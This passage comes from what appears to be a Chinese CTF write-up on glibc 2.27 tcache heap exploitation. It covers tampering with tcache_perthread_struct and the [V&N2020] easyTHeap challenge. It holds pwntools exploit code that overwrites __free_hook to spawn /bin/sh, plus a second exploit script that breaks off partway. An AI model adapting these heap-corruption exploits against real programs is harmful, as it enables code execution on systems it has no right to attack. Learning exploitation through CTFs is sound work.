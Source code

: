 ```python
blow_up()
free(2)
free(1)
free(0)
free(0)

build(p64(free_hook))

build('/bin/sh\x00')

build(p64(base+0x41780))

free(0)
gdb.attach(p)

p.interactive()
```



### 更改tcache_perthread_struct

`tcache_perthread_struct`一般是堆开头的第一个堆块，大小为0x250(amd64).我们可以通过gdb中`bins`与`p *(struct tcache_perthread_struct*)`来查看其信息。

![image-20210418133641326](image-20210418133641326.png)

我们也可以同过其他tache漏洞，使我们获得更改此处的权利。就可以让某大小计数大于`TCACHE_FILL_COUNT`（从而假造tache已满的情况泄露libc）。也可以篡改`entries`中保存的指针指向任意地方。

#### 例题：[V&N2020 公开赛]easyTHeap

题目限制了只能free3次和malloc 7次任意大小chunk。

利用二次释放在`tcache_perthread_struct`处，创造fack chunk。从而修改`tcache_perthread_struct`的值将假造tache已满的情况。从而free出libc。

再改`tcache_perthread_struct`的entries区域的内容，使某一大小的bin的指针变成我们fack chunk的指针从而改写`__realloc_hook`与`__moalloc_hook`，从而执行one_gadget.



```python
from pwn import *

e=ELF('/glibc/2.27/amd64/lib/libc.so.6')
p=process('./vn_pwn_easyTHeap')

def add(size):
	p.recvuntil('choice')	
	p.sendline('1')
	p.recvuntil('size')
	p.sendline(str(size))

def edit(num,text):
	#p.recvuntil('choice')	
	p.sendline('2')
	p.recvuntil('idx')
	p.sendline(str(num))
	p.recvuntil('content')
	p.sendline((text))
	

def show(num):
	p.recvuntil('choice')	
	p.sendline('3')
	p.recvuntil('idx?')
```